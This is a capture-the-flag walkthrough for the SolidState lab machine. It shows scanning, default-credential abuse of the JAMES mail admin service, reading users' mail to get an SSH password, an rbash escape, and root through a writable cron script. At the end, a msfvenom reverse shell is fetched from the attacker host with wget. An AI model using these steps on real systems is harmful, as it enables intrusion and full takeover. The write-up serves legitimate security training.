# [SolidState](https://app.hackthebox.eu/machines/85)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.51 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.51 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.51
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.51
```

The TCP quick scan returns the following:



These are some interesting ports... They all seem related to some JAMES service... Start with a scan of the website:

```bash
nikto -h http://10.10.10.51/ -C all --maxtime=120s --output=nikto.txt
```



Then browse to the site manually:

```bash
firefox http://10.10.10.51/
```


Looking at the website shows that it is likely a template since it has no active content? The other services on the machine look more interesting. Try looking for exploits for this JAMES service:

```
searchsploit james
```



Exploit 35513 looks interesting:

- https://www.exploit-db.com/exploits/35513

The exploit connects to TCP port 4555 and requires credentials. The exploit also shows that the default credentials are `root/root`. Other than that, the exploit requires the payload to be triggered once someone logs in... Try connecting manually:

```bash
nc 10.10.10.51 4555
```



Nice! The default credentials work and there seems to be accounts on the machine already. The target version also looks like it is vulnerable with `2.3.2`. Also, looking at the help output for this admin tool shows that there is a command `setpassword`. This should allow for a custom password to be set for each user account in order to manually log in and view the mail for each user on TCP port 110 with POP3:

```bash
nc 10.10.10.51 4555 # root/root
setpassword james bubba
setpassword thomas bubba
setpassword john bubba
setpassword mindy bubba
setpassword mailadmin bubba
```

 Now try and connect over POP3 to view the emails for each account:

- https://en.wikipedia.org/wiki/Post_Office_Protocol
- https://www.atmail.com/blog/pop-101-manual-pop-sessions/

```bash
telnet 10.10.10.51 110
user james
pass bubba
stat
quit
```



Looks like james has no mail. Looking at thomas shows that his account also has no emails. Next looking john shows something worth reading:

```bash
telnet 10.10.10.51 110
user james
pass bubba
stat
retr 1
quit
```



It seems like mindy is a new employee and needs a new password given from mailadmin. Next look at mindy:

```bash
telnet 10.10.10.51 110
user mindy
pass bubba
stat
retr 1
retr 2
quit
```

Mindy has the following interesting email:

```
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,

Here are your ssh credentials to access the system. Remember to reset your password after your first login.
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

This looks like a valid login! Trying them over SSH works and gets `user.txt` and a jailed shell:



Breaking out of jailed shells is a common CTF-like problem with many helpful hints:

- https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
- https://d00mfist.gitbooks.io/ctf/content/escaping_restricted_shell.html

Looking at this shell jail shows it is `rbash`:

- https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html

Looking at the shell shows the following:

- `PATH` and `SHELL` environmental variables are not writable
- `/` is not allowed in the program name
- There are no helpful programs in the `PATH` for escaping



From here, try escaping by asking SSH to run a specific command upon connecting instead of loading the default rbash shell:

```bash
ssh mindy@10.10.10.51 -t "bash --noprofile"
```

And this gives a full shell:



Looking around the system shows an interesting file `/opt/tmp.py`:

```bash
ls -la /opt
```



`tmp.py` has the following content:

```python
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

This file is onwed by `root` and writable by `mindy`. Maybe this is being run as a cron job? Create a file in `/tmp` and see if it is deleted:

```bash
touch /tmp/WILL_THIS_BE_REMOVED
watch -n 0.5 ls -la /tmp
```

After waiting for a bit, the file `WILL_THIS_BE_REMOVED` is deleted! This means, adding Python to `tmp.py` _may_ run as `root`. Create a new reverse shell and transfer it to the target:

- https://www.cyberciti.biz/tips/what-is-devshm-and-its-practical-usage.html

```bash
# run on kali
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
cat <<END >> ./tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('/dev/shm/bubba.elf')
except:
     sys.exit()
END
sudo python3 -m http.server 80
rlwrap nc -nvlp 6969
# run on target
wget -O /dev/shm/bubba.elf 10.10.14.25/bubba.elf
wget -O /opt/tmp.py 10.10.14.25/tmp.py
chmod +x /dev/shm/bubba.elf
```

After waiting for a bit, a reverse shell is returned as `root`:




